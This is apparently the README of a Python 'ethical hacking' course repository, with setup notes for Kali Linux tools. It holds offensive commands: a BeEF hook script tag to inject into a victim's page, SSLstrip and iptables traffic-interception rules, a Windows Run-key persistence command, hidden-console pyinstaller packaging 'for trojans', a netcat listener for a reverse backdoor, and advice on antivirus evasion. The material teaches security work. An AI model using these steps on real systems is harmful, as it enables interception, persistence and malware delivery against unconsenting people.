 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

#### Packaging scripts into executables
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script, use:  
`--add-data "abs/path/to/file;."`  
This is **especially useful** when creating trojans.
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system startup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  
* To check whether or not your program is detectable by antiviruses,
you can use services like NoDistribute (doesn't share results with AVs' companies)
or VirusTotal (shares the results, thus contributing to better IT security).  


